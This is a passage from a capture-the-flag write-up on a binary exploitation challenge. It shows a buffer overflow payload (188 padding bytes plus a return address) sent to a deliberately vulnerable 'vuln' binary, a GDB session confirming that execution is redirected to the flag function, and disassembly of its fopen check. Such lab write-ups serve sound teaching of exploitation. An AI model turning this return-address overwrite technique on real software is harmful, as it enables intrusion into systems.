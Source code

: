 Also, this is what we get when we pass the payload to the executable with an offset of 188:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08')" | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```

> Hurry up and try in on server side.

This seems a message that is being displayed at the flag function. Let's check it with GDB:

```bash
(gdb) b flag
Breakpoint 1 at 0x80491e6
(gdb) r < payload.bin
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Breakpoint 1, 0x080491e6 in flag ()
```

Aha! As expected, we are reaching the `flag` function now! It is just a matter of adjusting our payload now to successfully printing the contents of the file openned with `fopen`. Let's use GDB to investigate the flow of the `flag` function:

```bash
[...snip...]
0x08049205 <+35>:    call   0x80490b0 <fopen@plt>
0x0804920a <+40>:    add    $0x10,%esp
0x0804920d <+43>:    mov    %eax,-0xc(%ebp)
0x08049210 <+46>:    cmpl   $0x0,-0xc(%ebp)
0x08049214 <+50>:    jne    0x8049232 <flag+80>
0x08049216 <+52>:    sub    $0xc,%esp
0x08049219 <+55>:    lea    -0x1fec(%ebx),%eax
0x0804921f <+61>:    push   %eax
0x08049220 <+62>:    call   0x8049070 <puts@plt>
[...snip...]
```

Note that we are comparing the contents of the `%ebp` stack with `0x0`, which is C equivalent to `NULL`. If the `cmpl` returns true, we do not jump with `jne` and we get the message "Hurry up and try in on server side." through the `puts@plt` function. This happens because there is no text file to be openned in our local machine. 

Without knowing the name of the file openned by `fopen`, we cannot go further with our analysis locally. One way to enhance our analysis is by using Ghidra. Ghidra is a reverse engineering software that a lot of times rewrites the original code to us from the assembly.
